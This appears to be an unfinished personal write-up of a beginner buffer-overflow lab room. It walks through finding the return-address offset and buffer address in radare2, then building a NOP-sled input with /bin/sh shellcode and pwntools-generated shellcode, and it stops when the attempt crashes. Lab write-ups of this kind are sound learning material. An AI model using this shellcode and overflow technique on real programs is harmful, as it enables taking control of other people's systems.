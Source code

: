 Buffer Overflow (bof1)

# Buffer overflow 3
**Find offset**
Doing it manually:

- Keep throwing 'A's as input until we overwrite the return address
```
$ r2 -d overflow-3
> aa
> doo `python -c "print('A'*140)"`
> pdf @sym.copy_arg
> db 0x00400563   // <--- Set a breakpoint just before accessing return address
> dc
> ds
> dr  // <--- Here we eventually see that the address is being overwritten
```


With an offset of 154, we have two As in the return address (RIP value), that means that the return address starts at **offset 153**      

![return address being overwritten](./img/fed1c4375d5347e1906915e30f40cf15.png)

With the RIP/return address being 6 bytes, the following input will completely overwrite the RIP:
`python -c "print('A'*152 + 'B' * 6)"`

![owning the return address](./img/9303fe45cfb94e66a3ad28d3d97c4758.png)



**Find address of buffer**
To find the address of the buffer, we have a look at the memory around the stack after reading the input

```
> db 0x00400552 // <--- Breakpoint directly after the call to strcpy
> px @rsp
```
We see that our input is stored starting from address **0x7fffffffe0e0**

![stack.png](../../_resources/723613835e6a45fe9f679502a42b9b14.png)

**Preparing the payload**

Knowing the required length of the payload and the address of the input, we need some working shellcode to insert and execute.

Let's try the shellcode given by the room.
`\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05`  


This code is 30 bytes long. We provide 122 NOPs (google NOP-sled for reference) to fill up the space to 153. Thus our input is:

`python -c "print('\x90' * 122 + '\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05' + '\xe0\xe0\xff\xff\xff\x7f')"`

Instead of spawning a shell, the program simply crashes. A look into the memory shows us, that it stops copying our shell code into memory starting from the `\x3b` character. So purposefully or not, this room provided us with shellcode containing bad chars and we need to find a proper one.


![bad_char.png](../../_resources/67dd1dcc963146d0b6186b3a36b6d014.png)


Let's try it with pwntool's shellcraft
```
$ shellcraft -f d i386.linux.sh
\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xc9\x51\x6a\x04\x59\x01\xe1\x51\x89\xe1\x31\xd2\x6a\x0b\x58\xcd\x80
```

Analyzing the execution with radare, we see that it goes over the instructions, however the programm still crashes. That is, because our payload lacks an exit function.


**Here I decided to stop working on this room for a while. In general, this room seems to be too hard for a beginner, the missing and sometimes faulty description not making it any easier. I plan on coming back when I am more experienced.**





